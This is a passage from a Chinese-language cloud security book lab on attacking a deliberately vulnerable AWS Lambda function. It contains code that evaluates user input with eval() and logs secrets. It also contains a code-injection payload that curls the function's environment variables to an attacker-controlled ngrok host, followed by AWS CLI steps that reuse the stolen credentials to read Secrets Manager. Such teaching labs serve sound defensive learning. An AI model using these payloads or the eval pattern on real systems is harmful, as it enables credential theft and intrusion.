1. 切换回已打开 AWS Lambda 控制台的浏览器标签页。确保在继续下一步之前，已打开 `lambda-0010` 的 AWS Lambda 函数详细信息页面。
2. 导航到 Configuration 选项卡。然后单击 Permissions。在 Execution Role 部分，单击“Role name”下的链接，在新标签页中打开 IAM 角色详细信息，在其中查看或修改其权限。
3. 在“Permissions policies”部分（在 Permissions 选项卡上），单击“Add permissions。” 然后从可用选项列表中选择“Create inline policy”。

#### Note
这应该指导您完成创建内联策略的过程，该过程包括两个步骤：指定权限以及查看和创建策略。

4. 在“Specify permissions”页面下，在“Select a service”下，从下拉菜单中选择 Secrets Manager。
   在“Actions allowed”下，单击 List 以显示可用选项。切换打开“All list actions”复选框。这应自动选择与 Secrets Manager 相关的所有仅列出权限。
   然后单击 Read 以显示可用选项。切换打开“All read actions”复选框。这应自动选择与 Secrets Manager 相关的所有只读权限。
   在 Resources 下，选择 All。然后单击 Next。
5. 在“Review and create”页面，在“Policy name”字段中指定策略名称（例如，`read-secrets-manager-policy`）。然后单击“Create policy。”

#### Note
出现以下通知，表明策略已成功创建：`Policy read-secrets-manager-policy created.` 

请随意查看策略 JSON 以确认已应用正确的权限。您可以使用生成式 AI 工具进行审查和验证，以便了解策略授予的权限并确认包含正确的操作和资源。由于生成式 AI 工具可能会产生不准确的信息，请记住始终将详细信息与官方 AWS 文档进行交叉检查。

一旦您验证内联策略授予了必要的 Secrets Manager 权限，您就可以继续更新 Lambda 函数代码以完成设置。

#### 更新 Lambda 函数代码以从 Secrets Manager 检索机密

在本节中，您将更新前几节中的 Lambda 函数代码以从 Secrets Manager 检索机密。更具体地说，您将定义一个 `get_secret()` 函数，该函数使用提供的机密名称和区域通过 `GetSecretValue` API 检索机密。您会看到，通过 `boto3` Python 包从 Secrets Manager 检索机密只需要几行额外的代码。

#### Note
本节假定您使用的是 Serverless Lab 账户，该账户托管易受攻击的无服务器实验室环境。

让我们继续更新 Lambda 函数：

1. 切换回已打开 AWS Lambda 控制台的浏览器标签页。确保在继续下一步之前，已打开 `lambda-0010` 的 AWS Lambda 函数详细信息页面。
2. 导航到 Code 选项卡。在“Code source”部分，用以下内容替换现有的 `lambda_function.py` 代码：

```
import re
import boto3
import json

from os import environ
get_env = environ.get

HARDCODED_KEY_01 = "ABCDE"
HARDCODED_KEY_02 = "FGHIJ"


def get_secret(secret_name, region_name="us-east-1"):
    client = boto3.client("secretsmanager", region_name=region_name)
    response = client.get_secret_value(SecretId=secret_name)
    secret_dict = json.loads(response['SecretString'])

    return secret_dict

def get_statement(event):
    params = event.get('queryStringParameters', {})
    statement = params.get('statement', None)

    return statement


def process_statement(statement):
    output = "No statement parameter value provided"

    if statement:
        output = eval(statement)

    return output


def sanitize_output(output):
    return re.sub(r'[⁰-9\.]', '', str(output))


def lambda_handler(event, context):
    print("event: ", event)
    print("HARDCODED_KEY_01: ", HARDCODED_KEY_01)
    print("HARDCODED_KEY_02: ", HARDCODED_KEY_02)
    print("CUSTOM_ENV_VAR_01: ", get_env('CUSTOM_ENV_VAR_01'))
    print("CUSTOM_ENV_VAR_02: ", get_env('CUSTOM_ENV_VAR_02'))

    sm_data = get_secret("prod/lambda-secret")
    print("SECRETS MANAGER SECRETS: ", str(sm_data))

    statement = get_statement(event)
    result = process_statement(statement)

    return {
        'statusCode': 200,
        'body': sanitize_output(result)
    }
```


这个 `get_secret()` 函数通过调用 `GetSecretValue` API（通过 `get_secret_value()`）来从 AWS Secrets Manager 中检索机密值，其中指定了机密名称（`prod/lambda-secret`）和区域（`us-east-1`）。^(15) 然后函数将返回的 JSON 字符串解析为 Python 字典，以便 Lambda 函数可以访问存储的机密。

3. 点击 Deploy。

4. 点击 Test。这会产生以下响应：

```
Status: Succeeded
Test Event Name: event-0010

Response:
{
  "statusCode": 200,
  "body": "2"
}

Function Logs:
START RequestId: ... Version: $LATEST
event: {'queryStringParameters': {'statement': '1 + 1'}}
HARDCODED_KEY_01:  ABCDE
HARDCODED_KEY_02:  FGHIJ
CUSTOM_ENV_VAR_01:  KLMNO
CUSTOM_ENV_VAR_02:  PQRST
SECRETS MANAGER SECRETS:  {'secret1': 'secret-value1',
'secret2': 'secret-value2', 'secret3': 'secret-value3'}
END RequestId: ...
REPORT RequestId: ...   Duration: 2439.94 ms    Billed Duration: 2440 ms
Memory Size: 128 MB Max Memory Used: 84 MB  Init Duration: 264.20 ms
```

Lambda 函数按预期工作，并且成功从 Secrets Manager 中检索机密。现在你可以继续模拟攻击者利用 Lambda 函数的漏洞和错误配置来从 AWS Secrets Manager 中窃取机密。

#### 通过代码注入攻击窃取 Secrets Manager 机密

在本节中，你将探索攻击者如何通过使用代码注入来提取临时凭证并使用它们来枚举和检索机密。更具体地说，你将把函数的临时 AWS 凭证外泄到攻击者控制的服务器，在攻击者账户上将这些凭证配置到 AWS CLI 配置文件中，并使用它们来列出和检索 Secrets Manager 机密。

> Note
> 本节假设你正在使用 Attacker 账户来模拟攻击者尝试利用 serverless 实验室环境中的资源。

让我们继续进行模拟：

1. 切换到浏览器标签页，其中 S3 托管的网站已打开。

2. 输入并评估以下表达式以将你的环境变量发送到暴露的 Flask 服务器（通过 `ngrok` 隧道）：

```
__import__('os').system('curl -X POST -d \"$(env)\" https://[GENERATED_ID].ngrok-free.app')
```

> Caution
> 请确保将 `[GENERATED_ID]` 替换为 `ngrok` HTTPS 转发 URL 的 `<ID>` 值。

你应该会得到以下 Flask 终端输出，其中包含 Lambda 函数使用的环境变量：

```
-------------------------------------------------------
BODY
-------------------------------------------------------
...
LAMBDA_TASK_ROOT=/var/task
LANG=en_US.UTF-8
CUSTOM_ENV_VAR_01=KLMNO
CUSTOM_ENV_VAR_02= PQRST
AWS_SECRET_ACCESS_KEY=...

...

SHLVL=0
AWS_ACCESS_KEY_ID=...

...

AWS_LAMBDA_INITIALIZATION_TYPE=on-demand
AWS_SESSION_TOKEN=...
AWS_XRAY_CONTEXT_MISSING=LOG_ERROR
_AWS_XRAY_DAEMON_PORT=2000
_=/usr/bin/env
```

从终端输出中复制 `AWS_ACCESS_KEY_ID`、`AWS_SECRET_ACCESS_KEY` 和 `AWS_SESSION_TOKEN` 的值到本地机器上的文本编辑器。

> Tip
> 你可以暂时将这三个值保存在一个文件中（例如 `assumed-lambda-creds.txt`），以便你可以将它们粘贴到后续的 AWS CLI 配置命令中。

3. 切回 Attacker 账户的 CloudShell 终端。

4. 在 CloudShell 终端（`$` 符号之后），运行以下命令来备份当前 AWS CLI 凭证文件：

```
mv ~/.aws/credentials ~/.aws/credentials.bak2
```

5. 使用临时凭证创建一个名为 `assumed-lambda-role` 的配置文件：

```
aws configure set aws_access_key_id [KEY_ID] \
    --profile assumed-lambda-role

aws configure set aws_secret_access_key [SECRET_ACCESS_KEY] \
    --profile assumed-lambda-role

aws configure set aws_session_token [SESSION_TOKEN] \
    --profile assumed-lambda-role
```

请确保将 `[KEY_ID]`、`[SECRET_ACCESS_KEY]` 和 `[SESSION_TOKEN]` 替换为来自下表的对应值：

| Placeholder | Value |
| --- | --- |
| `[KEY_ID]` | 第 2 步中的 `AWS_ACCESS_KEY_ID` 值 |
| `[SECRET_ACCESS_KEY]` | 第 2 步中的 `AWS_SECRET_ACCESS_KEY` 值 |
| `[SESSION_TOKEN]` | 第 2 步中的 `AWS_SESSION_TOKEN` 值 |

6. 运行此命令来测试所假设的角色凭证：

```
aws sts get-caller-identity --profile assumed-lambda-role
```

以下响应表明所假设的角色会话已成功建立：

```
{
    "UserId": "...:lambda-0010",
    "Account": "...",
    "Arn": "arn:aws:sts::...:assumed-role/lambda-0010-role-.../lambda-0010"
}
```

7. 使用所假设的 Lambda 角色凭证列出 AWS Secrets Manager 中可用的机密：

```
aws secretsmanager list-secrets \
    --profile assumed-lambda-role \
    --region us-east-1
```

这会产生以下输出：

```
{
    "SecretList": [
        {
            "ARN": "...",
            "Name": "prod/lambda-secret",
            "LastChangedDate": "2025-00-00T00:00:00.000000+08:00",
            "LastAccessedDate": "2025-00-00T00:00:00+08:00",
            "Tags": [],
            "SecretVersionsToStages": {
                "...": [
                    "AWSCURRENT"
                ]
            },
            "CreatedDate": "2025-00-00T00:00:00.000000+08:00"
        },
        ...
    ]
}
```

8. 使用所假设的 Lambda 角色凭证从 AWS Secrets Manager 中检索机密 `prod/lambda-secret` 的值：

```
aws secretsmanager get-secret-value \
    --secret-id prod/lambda-secret \
    --profile assumed-lambda-role --region us-east-1
```

这会返回以下输出：

```
{
    "ARN": "...",
    "Name": "prod/lambda-secret",
    "VersionId": "...",
    "SecretString": "{\"secret1\":\"secret-value1\",\"secret2\":\"secret-value2\",\"secret3\":\"secret-value3\"}",
    "VersionStages": [
        "AWSCURRENT"
    ],
    "CreatedDate": "2025-00-00T00:00:00.000000+08:00"
}
```

在这里，你可以看到仅仅将机密存储在 Secrets Manager 中是不够的，因为如果 Lambda 函数具有过于宽松的访问权限或容易受到代码注入攻击，攻击者仍然可以检索这些机密。从防御角度来看，为防止攻击者列出 AWS Secrets Manager 中的机密，请确保未向 Lambda 角色授予 `secretsmanager:ListSecrets` 权限。没有此权限，Lambda 函数仍可以检索特定机密，但攻击者将无法使用与 Lambda 角色关联的凭证来列出机密。

> Caution
> 请不要立即清理你的资源，因为它们将在下一章的动手示例和模拟中用到。

## Summary

在本章中，你探索了攻击者如何利用公开暴露的易受攻击的 Lambda 函数来执行任意代码、检索受损 Lambda 函数的源代码，并从 serverless 应用内部外泄凭证。为了亲身体验攻击者的视角，你在 Serverless Lab 账户中设置并准备了一个易受攻击的 serverless Web 应用，模拟攻击者测试常见的 S3 存储桶错误配置，执行代码注入攻击，通过出站网络访问从函数执行环境外泄环境变量，并从 AWS Secrets Manager 中检索机密。


在下一章中，你将在已学内容的基础上进行扩展，并配置 Lambda 函数，使其在具有限制性出站访问的 VPC 中运行。你还将重构函数代码以消除对 `eval()` 的使用，从而防止代码注入攻击。随着你深入阅读下一章，你将了解哪些安全控制措施有效，哪些在针对无服务器应用程序的攻击者所利用的攻击类型面前效果不佳。

^(1) 你将在 “Configuring an S3 Bucket for Static Website Hosting” 中设置此 Web 前端。

^(2) Lambda 在函数执行完毕后会短暂保留执行环境，因此重复调用可以利用现有的环境。

^(3) 你将使用来自 `vulnerable-lambda-function-backend` GitHub 仓库的 [此 Lambda 函数代码](https://oreil.ly/4hu9f)。

^(4) 你可以参考 GitHub 上的 [原始源文件](https://oreil.ly/SvvfE)。

^(5) 根据你的存储桶托管的区域，S3 网站端点结构会有所不同，使用 `http://$BUCKET_NAME.s3-website.$REGION.amazonaws.com` 或 `http://$BUCKET_NAME.s3-website-$REGION.amazonaws.com`，详情请参阅 [官方 AWS 文档](https://oreil.ly/ckFZ7)。

^(6) 你将使用来自 `vulnerable-lambda-function-backend` GitHub 仓库的 [此 Lambda 函数代码](https://oreil.ly/tmi4W)。

^(7) 确保实例的安全组允许流量访问 Flask 端口。

^(8) 你将使用来自 `request-receiver` GitHub 仓库的 [`requirements.txt` 文件](https://oreil.ly/77YI-)

^(9) 你将使用来自 `request-receiver` GitHub 仓库的 [`app.py` 代码](https://oreil.ly/-Qj6I)。

^(10) 你可以用多种方式设置请求接收器，但使用简单的 Flask 服务器就足够了。

^(11) `ngrok` authtoken 是一个唯一的身份验证密钥，用于将你的本地 `ngrok` 客户端（在本例中为 ngrok CLI 代理）连接到你的 `ngrok` 账户，从而使你能够创建隧道并使用账户特定的功能。

^(12) 不要共享或公开暴露你的 `ngrok` authtoken。

^(13) Flask 服务器必须在端口 8000 上运行，隧道才能正常工作。

^(14) 你将使用来自 `vulnerable-lambda-function-backend` GitHub 仓库的 [此 Lambda 函数代码](https://oreil.ly/ttP1T)。

^(15) 如果你的 Secrets Manager 密钥存储在另一个 AWS 区域，请相应地更新 `region_name` 值。
